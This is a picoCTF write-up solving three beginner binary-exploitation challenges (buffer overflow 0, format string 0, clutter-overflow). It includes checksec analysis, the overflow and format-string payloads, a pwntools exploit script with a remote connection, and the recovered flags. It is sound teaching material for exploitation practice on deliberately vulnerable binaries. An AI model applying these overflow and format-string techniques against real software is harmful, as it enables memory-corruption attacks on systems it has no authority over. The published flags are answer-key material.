


# Binary Exploitation

## 1. buffer overflow 0

> The challenge is to overflow the correct buffer to get the flag. We have the source code file with the executable (same as the one that is running on the instance with the actual flag file)

- Source Code: [vuln.c](./buf0/vuln.c)
- Executable: [vuln](./buf0/vuln)

### My Solution

**Flag:**`picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

**Steps:**
- My first step was to analyse the executable file for which I ran the `file` and `checksec` commands

```bash
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
```

```bash
$ checksec --file=vuln
```


- The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is Position Independent 
    - runs on the 32-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Full RELRO is enebled which makes GOT read only and hence we can't perform a GOT overwrite attack

- Now I went and analysed the code from `vuln.c`
    - We can see that there is a signal handler that is running after the program starts which literally prints the `flag.txt` file when the signal `SIGSEGV` is recieved which is the signal for `Segmentation Fault`
    - We can also observe that `gets()` function is being used which is a vulnerable funciton as it has no checking for buffer size, now the data from input is being put into the buffer `buf1` which has a size of `100` now we could overflow this buffer and it may give us the flag
    - But, we could also overflow the buffer `buf2` which has a size of `16` which also could give us the flag (`strcpy()` is also a vulnerable function)

- Now segfault may not directly be triggered after the size of the buffer is crossed as the offset that triggers the segfault could be different than the value of buffer_size. Hence, any value substantially greater than `16` should crash the program and give us the flag

- So, I tried using the payload `aaaaaaaaaaaaaaaaaaaa` which is `a` repeated `20` times

- Next I created a `flag.txt`, made the execution of `vuln` possible and ran it to test my exploit

```bash
$ chmod +x vuln
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ ./vuln
Input: aaaaaaaaaaaaaaaaaaaa
SUCCESS
```

- Now we have our payload so I connected to the picoctf server using netcat and used the payload to get the flag
```bash
$ nc saturn.picoctf.net 59864
Input: aaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## 2. format string 0

> The challenge is to use format string to exploit the program and get the flag

- Source Code: [format-string-0.c](./formatstr0/format-string-0.c)
- Binary: [format-string-0](./formatstr0/format-string-0)

### My Solution

**Flag:**`picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`

**Steps:**
- My first step was to analyse the executable file for which I ran the `file` and `checksec` commands

```bash
$ file format-string-0
format-string-0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=73480d84a806aebddd86602609fcab2052c8fa13, for GNU/Linux 3.2.0, not stripped
```

```bash
$ checksec --file=format-string-0
```


- The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is not Position Independent 
    - runs on the 64-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Partial RELRO is enebled  

- Now I went and analysed the code from `format-string-0.c`
    - We can see that there is a signal handler that is running after the program starts which literally prints the `flag` when the signal `SIGSEGV` is recieved which is the signal for `Segmentation Fault`
    - We can also observe that `printf` is being called with a string literal in both the `serve_patrick` and `serve_bob` functions on lines `68` and `98` respectively which is potentially helpful
    - The main function calls `serve_patrick` function, which requires the burger choice `choice1` to be in the given options and the `printf(choice1)` to be greater than `2*BUFSIZE` which is `2*32` so we choose `Gr%114d_Cheese` as our input as the `%114d` expands to a string of 114 spaces
    - Then this calls the `serve_bob` function where to exploit it we can use the choice `Cla%sic_Che%s%steak` which tries to call add the strings in places where `%s` is there but the strings do not exist and it should crash the program and give us a segfault

- Next I created a `flag.txt`, made the execution of `format-string-0` possible and ran it to test my exploit

```bash
$ chmod +x format-string-0
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ ./format-string-0
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
SUCCESS
```

- Finally, I connected to the picoctf server using netcat and used the payloads to get the flag
```bash
$ nc mimas.picoctf.net 62394
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## 3. clutter-overflow

> The challenge is to use buffer overflow to set the `code` variable to `0xdeadbeef`

- Source Code: [chall.c](./clutteroverflow/chall.c)
- Binary: [chall](./clutteroverflow/chall)

### My Solution

**Flag:**`picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

**Steps:**
- My first step was to analyse the executable file for which I ran the `file` and `checksec` commands

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=181b4752cc92cfa231c45fe56676612e0ded947a, not stripped
```

```bash
$ checksec --file=chall
```


- The analysation reveals that the file:
    - is not-stripped so maybe we can use this to our help in future steps
    - is an executable that is not Position Independent 
    - runs on the 64-bit calling convention
    - NX is enebled which prevents data of the program being used for execution (it means that certain parts of the program are not executable)
    - there is No canary found which is good for us as we don't need to worry about bypassing stack canaries 
    - Partial RELRO is enebled  

- Now I went and analysed the code from `chall.c`
    - There is a use of `gets` which could potentially be helpful in overflowing the buffer `clutter` with the size `0x100` or `256`
    - Also, we can observe that we get the flag if `code` is equal to the `GOAL` which is `0xdeadbeef`

- Next I tried to find out how long the input size needs to be to change the `code` variable using the pwntools cyclic string

```python
>>> from pwn import *
>>> cyclic(300)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
```
- The code value was `0x6361617263616171` which means the offset to RIP becomes `264`

```python
>>> cyclic_find(0x6361617263616171)
264
```

- So, our payload becomes `b'a'*264 + p64(0xdeadbeef)`

- Next I wrote a python script to use the payload

_soln.py_
```python
from pwn import *

elf = ELF("./chall")
p = elf.process()

offset = 264

print(p.recvuntil("see?\n"))

payload = [
    b"a"*offset,
    p64(0xdeadbeef),
]

payload = b"".join(payload)
p.sendline(payload)

p.interactive()
```

- Next I created a `flag.txt`, made the execution of `chall` possible and ran it to test my exploit

```bash
$ chmod +x chall
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ python3 soln.py
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process 'chall': pid xxxxx
...
""\nMy room is so cluttered...\nWhat do you see?\n'
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
SUCCESS
[*] Got EOF while reading in interactive
$
```

- Finally, I connected to the picoctf server using netcat and used the python script to get the flag

_soln.py_
```python
# (-) lines removed
elf = ELF("./chall")
p = elf.process()
# (+) lines added
p = remote("mars.picoctf.net", 31890)
```

```bash
$ python3 soln.py
```



